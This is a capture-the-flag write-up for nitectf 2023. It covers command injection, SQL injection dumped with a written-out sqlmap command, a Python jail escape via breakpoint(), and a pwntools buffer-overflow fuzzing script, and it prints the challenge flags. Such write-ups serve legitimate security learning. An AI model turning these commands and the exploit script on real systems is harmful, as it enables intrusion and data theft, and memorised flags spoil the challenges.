 # nitectf - 2023

Homepage - https://nitectf.live/
CTF Page - https://play.nitectf.live/

## Web

### ERaaS

> Description
> Emergency response? Afraid not.
> http://eraas.web.nitectf.live/

Here there is command injection. Firstly, I tried to do `ls`, it printed all the files in current directory. There was a flag.txt file and then I printed content of flag.txt file using `cat`.

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5f4548808dc296f4542216885942f053.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1702998416&Signature=ARr8EoQGyjnSCTFQRsYtyrLePCE%3D)

Flag: `nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

### LiteLibrary

> Description
> Testing in prod. No worries are long as we are lighte :)
> http://litelibrary.web.nitectf.live/

In website, there is a search functionality `http://litelibrary.web.nitectf.live/api/search?q=ab` here `q` is the query. So as that data is coming from database, I have tried to do SQL injection and it worked.

Using sqlmap, we can dump all the data and get the flag.

`python sqlmap.py -u http://litelibrary.web.nitectf.live/api/search?q=ab --level 2 --risk 2`

The flag is in user's table.

Flag: `nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}`

## Misc

### blindjail

Here, from the question title itself, we can get to know that it is python jail breaking challenge. So I have tried to imort os first, it was showing no imports are allowed. Other commands are getting banned like system. Also builtins are not defined... After some tries, I found out that we can use `breakpoint()` and then we can import os and run system command in the command line.

![image](https://github.com/krishnan-tech/ctf-writeups/assets/55576296/2c066999-4295-4813-8d9f-acd71b282589)

Flag: `nitectf{sl1d3_0ver_th3se_4ttribut3s}`

## Pwn

### The road not taken

> Show me the right path to reach my final destination
> nc 34.100.142.216 1337

There was a binary attached with this challenge, when I loaded binary in ghidra,

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_227bfaca512bbda62dd321610228f97c.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1702998444&Signature=n4zlA%2FBqBoxMKJzXrI%2FHC2FNlgw%3D)

I can see, `local_10` variable is getting executed. So basically it is buffer overflow challenge, we just have to find the right offset and write the addredd as 'Y'. Offset to `right_direction` function.

So, in `main()` function, `local_218` function is of length 520.

So I wrote a script to fuzz and finally, I found

```python
from pwn import *

host = '34.100.142.216'
port = 1337


for offset in range(520, 600):
    conn = remote(host, port)

    payload = b'Y' * offset

    conn.send(payload)
    print(conn.recvline())
    print(conn.recvline())

    try:
        last_line = conn.recvline()

        if b'nite' in last_line:
            print(offset, last_line)
            break
    except:
        pass

    conn.close()
```

Flag: `nite{R0b3rT_fro5t_ftw_32dx5hp}`
